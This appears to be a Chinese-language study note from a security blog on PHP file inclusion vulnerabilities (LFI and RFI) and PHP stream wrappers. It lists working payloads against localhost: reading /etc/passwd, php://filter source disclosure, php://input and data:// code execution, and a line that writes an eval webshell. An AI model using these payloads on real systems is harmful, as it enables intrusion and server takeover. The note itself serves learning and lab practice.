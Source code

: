 ```yaml
---
{"dg-publish":true,"title":"WEB攻防_文件包含","dg-path":"xiaodi/WEB攻防_文件包含.md","permalink":"/xiaodi/WEB攻防_文件包含/","dgPassFrontmatter":true}
---
```


# 原理
程序开发人员通常会把可重复使用的函数写到单个文件中，在使用某些函数时，
直接调用此文件，而无须再次编写，这种调用文件的过程一般被称为文件包含。
在包含文件的过程中，如果文件能进行控制，则存储文件包含漏洞

# 分类
## 本地文件包含漏洞 (LFI)

LFI 漏洞发生在应用程序允许用户通过输入文件路径包含服务器本地的文件时。攻击者可以利用这个漏洞读取服务器上的敏感文件，如配置文件、密码文件等，甚至可能执行恶意代码。常见的攻击路径包括：

1. **读取系统文件**：例如 `/etc/passwd` 文件包含系统用户信息。
2. **读取应用配置文件**：例如 `config.php` 包含数据库配置和密码。
3. **读取日志文件**：可以通过包含 Web 服务器的日志文件，找到其他可利用的漏洞。
4. **配合文件上传**：如果可以上传文件，则可以考虑上传恶意代码来包含


## 远程文件包含漏洞 (RFI)

RFI 漏洞发生在应用程序允许用户通过输入文件路径包含远程服务器上的文件时。攻击者可以利用这个漏洞将远程服务器上的恶意代码包含到目标服务器的执行环境中，从而远程控制目标服务器。RFI 攻击通常包括：

1. **包含远程恶意脚本**：攻击者可以将恶意脚本上传到他们的服务器，并通过包含这个远程脚本执行恶意代码。
2. **植入后门**：攻击者可以通过包含后门脚本，获得对目标服务器的持续访问。



# 伪协议

PHP伪协议是一种在PHP中提供的特殊协议，可以用于处理不同类型的数据流、文件和资源。它们允许开发人员通过一种统一的方式访问和操作这些资源。

详细参考：
https://segmentfault.com/a/1190000018991087
## 常用伪协议

### `file://[文件的绝对路径和文件名]`

用于访问本地文件系统。可以读取或写入本地文件。

如：`http://127.0.0.1/include.php?file=file://E:\phpStudy\PHPTutorial\WWW\phpinfo.txt`


###  `php://`

**1. `php://filter`**

作用：

读取源代码并进行base64编码输出

示例：

 `http://127.0.0.1/cmd.php?cmd=php://filter/read=convert.base64-encode/resource=[文件名]（针对php文件需要base64编码）`

参数：

 resource=<要过滤的数据流> 这个参数是必须的。它指定了你要筛选过滤的数据流  
 read=<读链的筛选列表> 该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。  
 write=<写链的筛选列表> 该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。  
 <；两个链的筛选列表> 任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。

**2. `php://input`**

作用：

 执行POST数据中的php代码

示例：
 `http://127.0.0.1/cmd.php?cmd=php://input`

 POST数据：`<?php phpinfo()?>`

注意：

 `enctype="multipart/form-data"` 的时候 `php://input` 是无效的


###  `data://`

作用：

 自PHP>=5.2.0起，可以使用data://数据流封装器，以传递相应格式的数据。通常可以用来执行PHP代码。一般需要用到`base64编码`传输

示例：

 `http://127.0.0.1/include.php?`
 
 `file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b`


## 常用伪协议语句
**文件读取：**
`file:///etc/passwd`
`php://filter/read=convert.base64-encode/resource=phpinfo.php`

**文件写入：**
`php://filter/write=convert.base64-encode/resource=phpinfo.php`
`php://input POST:<?php fputs(fopen('shell.php','w'),'<?php @eval($_GET[cmd]); ?>'); ?>`


**代码执行：**
`php://input POST:<?php phpinfo();?>`
`data://text/plain,<?php phpinfo();?>`
`data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b`



![Pasted image 20240807172651.png](/img/user/picture/Pasted%20image%2020240807172651.png)



[[blog/安全/靶场/CTFshow_文件包含\|CTFshow_文件包含]]